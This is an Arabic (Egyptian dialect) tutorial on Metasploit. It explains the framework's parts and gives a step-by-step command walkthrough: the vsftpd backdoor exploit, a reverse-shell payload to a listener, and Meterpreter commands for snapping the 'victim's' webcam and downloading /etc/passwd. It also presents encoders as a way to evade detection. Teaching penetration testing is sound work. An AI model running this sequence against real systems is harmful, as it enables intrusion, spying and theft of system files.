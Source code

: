 ### **ما هو Metasploit؟ (شرح عميق وبسيط)**

Metasploit هو **إطار عمل (Framework)** يُستخدم لاختبار الاختراق عن طريق فحص واكتشاف الثغرات الأمنية في الأنظمة والشبكات واستغلالها. الأداة توفر مجموعة كبيرة من الأدوات الجاهزة التي تساعد مختبري الاختراق (Pentesters) على تنفيذ هجماتهم بطريقة منظمة وآمنة.

> **💡 الخلاصة بالمصري:**  
> Metasploit هو **عدة متكاملة** للاختراق الأخلاقي، بيجمع أدوات لاكتشاف واستغلال الثغرات بطريقة منظمة بدل ما تقعد تعمل كل حاجة يدوي.

---

## **ليه نستخدم Metasploit؟**

Metasploit بيستخدم في:  
✅ **فحص الشبكات والسيرفرات** عشان نعرف لو فيها ثغرات.  
✅ **تجربة استغلال الثغرات** الموجودة في قواعد البيانات مثل ExploitDB.  
✅ **إنشاء أكواد استغلال (Exploits) جديدة** وتخصيصها حسب الحاجة.  
✅ **عمل هجوم بعد الاستغلال (Post-Exploitation)** زي استخراج البيانات أو إنشاء أبواب خلفية (Backdoors).  
✅ **تجاوز أنظمة الحماية** مثل الـ IDS والـ Firewall عن طريق التشفير والتخفي.

> **💡 الخلاصة بالمصري:**  
> Metasploit بيعمل كل حاجة ليك **من أول فحص الهدف لحد السيطرة عليه**، ومش بس كده، كمان بيخليك تقدر تفضل متحكم في النظام حتى بعد الاختراق!

---

## **مكونات Metasploit الأساسية**

Metasploit متقسم لأربع حاجات أساسية، ودي اللي بتخليه قوي وسهل الاستخدام:

### 1️⃣ **Exploits** (أكواد استغلال الثغرات)

- هي الأكواد اللي بتستخدم لاستغلال الثغرات في البرامج والأنظمة، زي ثغرات **Buffer Overflow** أو **SQL Injection**.
- مكتبة Metasploit فيها أكتر من **2000 Exploit جاهز**.

> **💡 الخلاصة بالمصري:**  
> Metasploit عنده **ترسانة Exploits جاهزة** تقدر تستخدمها بدل ما تقعد تكتب كود بنفسك.

---

### 2️⃣ **Payloads** (الأوامر اللي بتتنفذ بعد الاختراق)

- لما تستغل ثغرة، لازم تبعت أوامر تتحكم في الجهاز المخترَق، وهنا بيجي دور الـ **Payloads**.
- فيه أنواع كتير من الـ Payloads، زي:
    - **Reverse Shell** → بيفتح لك Terminal على جهاز الضحية.
    - **Meterpreter** → أداة متقدمة تسمح لك بالتحكم الكامل في الجهاز.

> **💡 الخلاصة بالمصري:**  
> الـ **Payload** هو اللي بيحدد إنت عايز تعمل إيه بعد ما تخترق الهدف، زي تشغيل **Terminal** أو تحميل ملفات من الجهاز.

---

### 3️⃣ **Encoders** (تشفير الأكواد لتجاوز الحماية)

- بعض أنظمة الحماية بتكشف الـ **Exploits و Payloads** بسهولة، فبيتم تشفيرهم باستخدام **Encoders** عشان يمروا بدون اكتشاف.

> **💡 الخلاصة بالمصري:**  
> لو برنامج الحماية كشف الهجوم، Metasploit عنده **أدوات تشفير تخليه يمر من غير ما حد يحس بيك**.

---

### 4️⃣ **Post-Exploitation** (ما بعد الاختراق)

- بعد ما تسيطر على الهدف، Metasploit بيساعدك في تنفيذ عمليات متقدمة، زي:
    - استخراج البيانات الحساسة.
    - إنشاء أبواب خلفية (Backdoors) عشان تقدر تدخل بعدين.
    - التجسس على الجهاز، زي تشغيل الكاميرا أو تسجيل ضغطات الكيبورد.

> **💡 الخلاصة بالمصري:**  
> مش بس تخترق وتمشي، لأ! Metasploit بيديك **أدوات للتحكم الكامل في الضحية** حتى بعد ما يقفل الجهاز.

---

## **خطوات عملية لاستخدام Metasploit 🔥**

### **1️⃣ تشغيل Metasploit Console**

افتح **Kali Linux** واكتب:

```bash
msfconsole
```

هتفتح معاك واجهة Metasploit.

---

### **2️⃣ البحث عن ثغرة مناسبة**

مثلاً، لو عايز تدور على ثغرات FTP، استخدم:

```bash
search ftp
```

هتظهر لك قائمة بالثغرات المتاحة.

---

### **3️⃣ اختيار الـ Exploit المناسب**

بعد ما تلاقي الثغرة اللي تناسب هدفك، استخدم:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

ده معناه إنك اخترت استغلال لثغرة في FTP.

---

### **4️⃣ تعيين الهدف (Target IP)**

حدد عنوان الـ IP الخاص بالجهاز المستهدف:

```bash
set RHOSTS 192.168.1.100
```

---

### **5️⃣ اختيار الـ Payload المناسب**

لو عايز تفتح **Reverse Shell**، استخدم:

```bash
set PAYLOAD linux/x86/shell_reverse_tcp
```

وبعدين تحدد جهازك كـ Listener:

```bash
set LHOST 192.168.1.50  # جهازك
set LPORT 4444           # البورت اللي هيتم الاتصال عليه
```

---

### **6️⃣ تنفيذ الهجوم 🚀**

شغل الهجوم باستخدام:

```bash
exploit
```

لو كل حاجة تمام، هتلاقي نفسك داخل على جهاز الضحية 💀.

---

### **7️⃣ التحكم في الضحية بعد الاختراق**

بمجرد تشغيل Meterpreter، جرب الأوامر دي:

🔹 **رؤية العمليات الجارية:**

```bash
ps
```

🔹 **فتح كاميرا الضحية:**

```bash
webcam_snap
```

🔹 **تحميل ملف من الضحية:**

```bash
download /etc/passwd
```

---

### **🎯 الخلاصة النهائية بالمصري**

Metasploit هو **المطبخ اللي فيه كل أدوات الاختراق الجاهزة**، بدل ما تكتب كل حاجة من الصفر.

✔️ **دور على الثغرة** → استخدم `search`  
✔️ **اختار الـ Exploit** → استخدم `use`  
✔️ **حدد الهدف** → استخدم `set RHOSTS`  
✔️ **اختار الـ Payload** → استخدم `set PAYLOAD`  
✔️ **شغل الهجوم** → استخدم `exploit`  
✔️ **تحكم في الضحية** → استخدم `meterpreter`

---

🔥 **كده بقى عندك أساس قوي لاستخدام Metasploit!** لو عايز تطبيق عملي أو شرح لثغرة معينة، قول لي وهنجربها مع بعض. 🚀